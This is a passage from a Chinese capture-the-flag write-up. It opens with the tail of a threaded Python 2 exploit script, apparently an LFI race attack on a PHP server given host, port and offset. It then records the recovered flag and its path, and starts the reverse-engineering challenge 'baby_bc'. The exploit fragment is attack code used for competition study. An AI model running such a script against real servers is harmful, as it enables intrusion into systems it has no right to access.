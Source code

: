 ```python
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  \m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "\nTelling threads to shutdown..."
        e.set()
    
    print "Shuttin' down..."
    for t in tp:
        t.join()

if __name__=="__main__":
    main()
```

在`/etc/fcbbfhbfbf/fhgedheeia/bdedgcecje/bhaabhejid/ecfajfcgba/fl444444g`，找到了flag：CISCN{GlWGe-8agDv-a6Gst-CShBt-32Vl0-}

## baby_bc

面对奇怪的`bc`文件一头雾水。一顿好找才发现这是LLVM生成的中间码文件，可以向下继续编译到机器码。`clang`编译之，拖进IDA。

程序里满是二维数组（`map[5][5]`、`row[5][4]`、`col[4][5]`），输入被填入`map`，要求满足如下条件：

- 不得覆盖`map`中原有的数字（对应位置用`0`代替）
- `map`每行、每列不得出现重复数字
- 满足`row`中定义的水平相邻两数字的大小关系
- 满足`col`中定义的竖直相邻两数字的大小关系
- 数字范围限定为`[1, 5]`（原先为`[0, 5]`导致出现多解）

